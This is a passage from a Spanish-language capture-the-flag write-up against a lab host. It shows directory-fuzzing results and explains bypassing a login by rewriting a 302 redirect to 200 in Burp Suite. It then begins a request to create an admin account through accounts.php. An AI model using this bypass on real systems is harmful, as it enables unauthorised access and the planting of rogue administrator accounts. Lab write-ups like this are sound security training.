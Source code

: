 ```bash
000000187:   200        31 L     60 W       1248 Ch     "nav"                                                                                                                                             
000000320:   200        5 L      14 W       217 Ch      "footer"                                                                                                                                          
000000004:   302        0 L      0 W        0 Ch        "download"                                                                                                                                        
000000002:   302        71 L     164 W      2801 Ch     "index"                                                                                                                                           
000000081:   302        112 L    263 W      4914 Ch     "files"                                                                                                                                           
000000751:   302        74 L     176 W      2966 Ch     "status"                                                                                                                                          
000000040:   200        53 L     138 W      2224 Ch     "login"                                                                                                                                           
000001212:   302        0 L      0 W        0 Ch        "logout"                                                                                                                                          
000001376:   302        93 L     238 W      3994 Ch     "accounts"                                                                                                                                        
000001477:   200        0 L      0 W        0 Ch        "config"                                                                                                                                          
000002258:   302        0 L      0 W        0 Ch        "logs"                                                                                                                                            
000000178:   200        20 L     64 W       980 Ch      "header"                                                                                                                                          
000045227:   403        9 L      28 W       277 Ch      "http://10.10.11.104/.php" 
```

Vemos que encontramos un 302 para recursos a nivel web, procedemos a usar Burpsuite para modificar la respuesta del Servidor de
302 a 200 OK

Probamos con el recurso encontrado `accounts.php`

```bash
Cambiamos la cabecera 302 Not Found --> 200 OK desde Burpsuite 
Inteceptando la respuesta del Servidor
```

Venmos que conseguimos entrar al recurso `accounts.php` saltandonos el panel login.
Procemos a crear un usuario llamado `admin:admin`
```bash
POST /accounts.php HTTP/1.1

Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/accounts.php
```